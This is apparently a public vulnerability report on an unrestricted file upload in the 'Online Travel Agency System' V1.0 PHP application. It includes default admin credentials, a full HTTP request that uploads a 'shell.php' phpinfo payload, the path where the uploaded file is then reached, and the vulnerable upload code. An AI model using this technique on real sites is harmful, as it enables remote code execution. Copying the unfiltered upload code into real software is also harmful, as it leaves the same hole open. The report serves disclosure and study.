



# [Online Travel Agency System-File upload vulnerabilities-employee_insert.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:**Online Travel Agency System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** File upload vulnerabilities

**[Vulnerability Url]:** http://localhost/Travel/admin/employee_insert.php

**[Vulnerability Location]:** /Travel/admin/employee_insert.php

**[Vulnerability Test]:**

1. First visit http://10.142.221.111/Travel/admin/employee.php, display the Add Employee page, fill in the relevant data, and upload a PHP file at the `photo` with the content `<?php phpinfo(); ? >`

   

2. After clicking SUBMIT, get the packet as follows

   ```bash
   POST /Travel/admin/employee_insert.php HTTP/1.1
   Host: 10.142.221.111
   Content-Length: 1163
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: http://10.142.221.111
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylHk30v3mO57U1YBo
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://10.142.221.111/Travel/admin/employee.php
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=25ljgqv0ko3gcoh9pgvutde2v2
   Connection: close
   
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="userfile"; filename="shell.php"
   Content-Type: application/octet-stream
   
   <?php phpinfo(); ?>
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_name"
   
   aaaaa
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_contact"
   
   1234567
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_email"
   
   212312@gmail.com
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_address"
   
   beijing
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_reference"
   
   asdasd
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_join"
   
   2023-04-28
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_close"
   
   2023-04-28
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_desc"
   
   none
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="employeeform"
   
   submit
   ------WebKitFormBoundarylHk30v3mO57U1YBo--
   ```

   The response results are shown in the figure

   

4. The file is successfully uploaded and the page jumps to employee_view.php, and the path to the file just uploaded is displayed on this page.

   

5. Visit http://10.142.221.111/Travel/admin/user/shell.php

   

**[code analysis]:**

In /Travel/admin/employee_insert.php:

```php
<?php 
//insertion into employee table
    if(isset($_REQUEST['employeeform']))
	{
 
 $image=$_FILES['userfile']['name'];
 $file_size=$_FILES['userfile']['size'];
 $tmp_file_name=$_FILES['userfile']['tmp_name']; 

$uploaddir='user/'.$image;
$uploadimage=$uploaddir;//specify the full path for file;

if(move_uploaded_file($tmp_file_name,$uploadimage))
{
	echo"file upload successfully";
}
else
{
	echo"error occured";
         
}// end of else
```

No filtering is done on uploaded filenames

In /Travel/admin/employee_view.php

```php+HTML
<?php 
  $total=0;
  //RETRIVAL DATA FROM EMPLOYEE TABALE
  $sql="select*from employee";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
while($row=mysqli_fetch_array($result))
{   
    $emp_picture=$row['emp_picture']; 
	$emp_id=$row['emp_id'];
	$emp_name=$row['emp_name'];
	$emp_contact=$row['emp_contact'];
	$emp_address=$row['emp_address'];
	$emp_reference=$row['emp_reference'];
	$emp_email=$row['emp_email'];
	$emp_jion=$row['emp_join'];
	$emp_close=$row['emp_close'];
	$total=$total+1;

?>

// In line 68
" width="100" height="113" />
```

And the file address is echoed on the page

